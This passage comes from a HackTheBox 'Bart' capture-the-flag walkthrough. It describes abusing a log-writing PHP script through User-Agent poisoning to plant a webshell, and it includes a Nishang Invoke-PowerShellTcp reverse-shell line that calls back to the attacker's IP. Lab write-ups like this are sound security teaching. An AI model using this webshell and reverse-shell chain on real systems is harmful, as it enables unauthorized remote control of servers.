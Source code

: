 Let's try one more thing else. We know that this script is writing to the files that already existed on the server, but can we write to a non-existent file?

![Writing Test 2](/HackTheBox/htb-bart/17_log9_2.png)

To do so, I made the script write to *noobsec.php*, which we can be sure wouldn't exist on the server, and we do get the "1" response indicating that this might have worked. Let's check by browsing to */noobsec.php*.

![Created File on Server](/HackTheBox/htb-bart/17_log10_2.png)

As the page loads up just fine we can say for sure that we can even create files on this server. Only purpose this could serve is that we wouldn't have to modify already present files that could be critical to the server, and will be working with entirely different file, which even if it broke in worst possible way it would not affect the operations of the server and would be a much safer way of doing things.

*Note: The following operations are carried on the log.php file instead of this newly created file because this test idea had come while writing this write-up when everything was almost done.*

![Poisoning The Script](/HackTheBox/htb-bart/17_log11.png)

Let's leverage our knowledge of being able to modify User Agent and writing to PHP file to exploit it. Putting a PHP webshell payload in the User-Agent field, and once sent we get a response that the write operation was successful.

![Webshell Test](/HackTheBox/htb-bart/17_log12.png)

Let's test if we have remote command execution. We send the simplest command, `whoami`, and we can see that it has successfully been executed. Nice, but we can do better - getting an interactive shell, which is what we will do now.

We will make use of [Nishangs'](https://github.com/samratashok/nishang) Invoke-PowershellTcp.ps1 powershell reverse shell to get a shell on the system. Ensure you have mentioned the reverse shell command at the bottom of the file which once downloaded the target system will execute immediately.

``` bash
# Change IP and Port as required
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

![Hosting Shell.ps1](/HackTheBox/htb-bart/18_shell1.png)

Once the file is prepared we will host on the python web server, I use my own <a href="https://noobsec.net/linux-tips/#Python-Server" target="_blank">alias</a> to avoid typing all that.

Ensure you have your shell listener active.

![Downloading Shell.ps1](/HackTheBox/htb-bart/18_shell2.png)

Once the file is being hosted, we can send the command to get it downloaded, <a href="https://noobsec.net/privesc-windows/#File-Transfer" target="_blank">Windows file transfer commands</a>, and executed by the target system.


![Fetching The Shell](/HackTheBox/htb-bart/18_shell3.png)
